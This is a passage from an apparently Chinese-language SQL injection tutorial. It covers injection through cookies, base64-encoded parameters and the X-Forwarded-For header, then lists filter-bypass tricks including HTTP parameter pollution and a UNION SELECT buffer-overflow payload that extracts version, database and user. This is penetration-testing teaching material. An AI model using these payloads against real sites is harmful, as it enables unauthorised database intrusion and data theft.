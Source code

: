 当发现在url中没有请求参数，单数却能得到结果的时候，可以看看请求参数是不是在cookie中，然后利用常规注入方式在cookie中注入测试即可，只是注入的位置在cookie中，与url中的注入没有区别。

```
Cookie: id = 1 and 1=1
```

### base64注入

对参数进行base64编码，再发送请求。

说明：id=1'，1的base64编码为`MSc=`，而`=`的url编码为`%3d`，所以得到以下结果：

```
id=MSc%3d
```

### XFF注入

XFF(X-Forward-For)，简称XFF头，它代表客户端真实的ip地址

```
X-Forward-For：127.0.0.1' select 1,2,user()
```

## 0x07 SQL注入绕过技术

- **大小写绕过**

- **双写绕过**

- **编码绕过**（url全编码、十六进制）

- **内联注释绕过**

- **关键字替换**

  - **逗号绕过**

    substr、mid()函数中可以利用from to来摆脱对逗号的利用；

    limit中可以利用offset来摆脱对逗号的利用

  - **比较符号( >、< )绕过**（greatest、between and)

  - **逻辑符号的替换**（and=&& or=|| xor=| not=!）

  - **空格绕过**（用括号，+等绕过）

- **等价函数绕过**

  - hex()、bin()=ascii()
  - concat_ws()=group_concat()
  - mid()、substr()=substring()

- **http参数污染**（`id=1 union select+1,2,3+from+users+where+id=1–`变为`id=1 union select+1&id=2,3+from+users+where+id=1–`）

- **缓冲区溢出绕过** (id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 ,27,28,29,30,31,32,33,34,35,36–+ 其中0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般会存在临界值，其实这种方法还对后缀名的绕过也有用)